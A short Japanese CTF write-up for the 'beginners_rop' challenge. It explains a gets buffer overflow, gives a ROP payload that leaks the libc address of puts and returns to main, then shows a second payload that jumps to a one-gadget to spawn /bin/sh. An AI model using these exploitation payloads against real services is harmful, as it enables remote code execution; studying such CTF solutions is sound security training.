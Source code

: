 # beginners_rop

> Do you like programming?
> 
> Did you know Return Oriented Programming?

## Write-up

`src.c`を読むと`gets`が使われておりバッファオーバーフローがあります。
バッファオーバーフローを利用してlibcのアドレスを特定してからOne-gadget RCEによって`/bin/sh`を起動します。

libcのアドレスを特定するためのペイロードを送信します。

```python
payload = b''
payload += b'A' * 0x108
payload += p64(0x401283) # pop rdi; ret
payload += p64(0x404018) # puts@GLIBC_2.2.5
payload += p64(0x401070) # puts@plt
payload += p64(0x401196) # main
```

GOTの`puts`を引数にして`puts`を呼び出すことでlibcの`puts`のアドレスを出力します。
その後`/bin/sh`を起動させるペイロードを送るために再度`main`へ戻します。

出力したアドレスからlibcの`_IO_puts`のアドレスを引くことでlibcのベースアドレスを求めます。
計算したlibcのアドレスを利用して`/bin/sh` を起動するためのペイロードを送信します。

```python
libc_addr = puts_got_addr - 0x80aa0
payload = b''
payload += b'A' * 0x108
payload += p64(libc_addr + 0x4f3d5) # One-gadget RCE
```
